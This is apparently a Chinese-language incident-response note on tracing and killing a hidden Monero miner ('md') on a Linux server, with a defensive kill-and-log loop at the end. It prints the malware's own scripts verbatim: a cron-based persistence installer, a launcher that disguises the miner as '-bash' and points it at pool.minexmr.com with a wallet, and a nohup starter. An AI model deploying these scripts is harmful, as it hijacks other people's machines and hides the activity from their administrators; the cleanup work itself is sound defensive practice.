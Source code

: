 # 查杀挖矿机进程md

`[root@localhost]# top` 查看到md（占用cpu近100%）的PID 4444  
`[root@localhost]# cd /proc/4444`  
```
[root@localhost]# ll
-r--------. 1 Hazard Liulab        304 Nov 22 20:24 auxv
--w-------. 1 Hazard Liulab          0 Nov 22 20:24 clear_refs
-r--r--r--. 1 Hazard Liulab        414 Nov 22 20:24 cmdline
-rw-r--r--. 1 Hazard Liulab          3 Nov 22 20:24 comm
lrwxrwxrwx. 1 Hazard Liulab         15 Nov 22 20:24 cwd -> /lib/modules/.z
-r--------. 1 Hazard Liulab       3799 Nov 22 20:24 environ
lrwxrwxrwx. 1 Hazard Liulab         18 Nov 22 20:24 exe -> /lib/modules/.z/md
dr-x------. 2 Hazard Liulab       4096 Nov 22 20:24 fd
dr-x------. 2 Hazard Liulab       4096 Nov 22 20:24 fdinfo
-rw-------. 1 Hazard Liulab       1323 Nov 22 20:24 limits
-r--r--r--. 1 Hazard Liulab      16529 Nov 22 20:24 maps
-rw-------. 1 Hazard Liulab          0 Nov 22 20:24 mem
-r--r--r--. 1 Hazard Liulab       1489 Nov 22 20:24 mountinfo
-r--r--r--. 1 Hazard Liulab       1278 Nov 22 20:24 mounts
dr-x--x--x. 2 Hazard Liulab       4096 Nov 22 20:24 ns
-r--r--r--. 1 Hazard Liulab      10351 Nov 22 20:24 numa_maps
-r--r--r--. 1 Hazard Liulab 2823852032 Nov 22 20:24 pagemap
-r--r--r--. 1 Hazard Liulab          9 Nov 22 20:24 personality
lrwxrwxrwx. 1 Hazard Liulab          1 Nov 22 20:24 root -> /
-rw-r--r--. 1 Hazard Liulab       2403 Nov 22 20:24 sched
-r--r--r--. 1 Hazard Liulab     130825 Nov 22 20:24 smaps
-r--r--r--. 1 Hazard Liulab        233 Nov 22 20:24 stat
-r--r--r--. 1 Hazard Liulab         34 Nov 22 20:24 statm
-r--r--r--. 1 Hazard Liulab        936 Nov 22 20:24 status
-r--r--r--. 1 Hazard Liulab         67 Nov 22 20:24 syscall
```     
重点关注cmdline 和 exe,cwd 等  
cwd 指向 /lib/modules/.z (这个目录里放着挖矿的程序)  
exe指向 /lib/modules/.z/md (这个就是占用100%cpu的家伙)  
`[root@localhost]# cat cmdline`   
这里看到如下字样，pool.minexmr.com 基本上跟挖矿有关了    
`-bash -acryptonight-os tratum+tcp://pool.minexmr.com:7777`   
```
[root@localhost]# cd /lib/modules/.z/
[root@localhost .z]# ll
-rw-r--r--. 1 root root       0 Nov 23 15:40 $
-rwxr-xr-x. 1 root root     332 Oct  5 03:07 a
-rw-r--r--. 1 root root       1 Nov 23 18:07 bash.pid
-rwxr-xr-x. 1 1001 1001   15125 Feb 21  2016 h32
-rwxr-xr-x. 1 1001 1001  838583 Feb 21  2016 h64
-rwxr-xr-x. 1 root root 2979640 Jun 24 04:19 md
-rwxr-xr-x. 1 root root  168896 Sep 27 18:58 mdx
-rwxr-xr-x. 1 root root     533 Nov 19 22:41 run
-rw-r--r--. 1 root root    4833 Nov 23 16:24 screenlog.0
-rwxr-xr-x. 1 root root      24 Oct  5 02:45 x
```   
ll结果如下，h32,h64,md,mdx都是二进制文件  
 我们可以从a, run, x 三个文件里看到些端倪  
```
[root@localhost .z]# cat a 
pwd > dir.dir
dir=$(cat dir.dir)
echo "* * * * * $dir/upd >/dev/null 2>&1" > cron.d
crontab cron.d
crontab -l | grep upd
echo "#!/bin/sh
if test -r $dir/bash.pid; then
pid=\$(cat $dir/bash.pid)
if \$(kill -CHLD \$pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd $dir
./run &>/dev/null" > upd
chmod u+x upd
rm -rf ../dwk.tgz
rm -rf ../z.sh
```
 cron.d 和 upd文件都没有找到，使用locate 命令，也没有搜索到，  
 使用kill 4444 之后，停几个小时，md会重新执行（即使给.z文件夹改名也没用，删除也没有用，还是会启动）  
  怀疑存在父进程，或定时任务，但是使用crontab -l 查看没有定时任务（无语）  
```
[root@localhost .z]# cat run  
#!/bin/bash

proc=`nproc`
ARCH=`uname -m`
HIDE="-bash"

if [ "$ARCH" == "i686" ];       then
        ./h32 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
elif [ "$ARCH" == "x86_64" ];   then
        ./h64 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
fi
echo $! > bash.pid
```
`[root@localhost .z]# cat x`  
```
nohup ./a >>/dev/null &
```
-------------
 无奈只能曲线救国，写了一个守护进程，一旦看到md运行就kill掉它  
 其中ps -ef 结果的第三列是父进程，为了追综始作俑者。  
 一般命令行运行的程序好像父进程是1？  
```
#!/bin/sh
proc_name="^sh md$" 
file_name="/data2/lzc/watchMD.log"

echo `date` = NUM = PID > $file_name
while true
do
 num=`pgrep -x "$proc_name" | wc -l`
 if [ 0 -lt $num ]
 then
    pid=`pgrep -x "$proc_name"`
    ps -ef | grep $pid | grep -v grep >> $file_name
    echo == >> $file_name
    par=(`ps -ef | grep $pid | grep -v grep | cut -f3`)
    ps -ef | grep ${par[0]} | grep -v grep >> $file_name
    echo ==== >> $file_name
    kill $pid
    echo `date` =  $num  = $pid >> $file_name
 fi
 sleep 2
done  
```
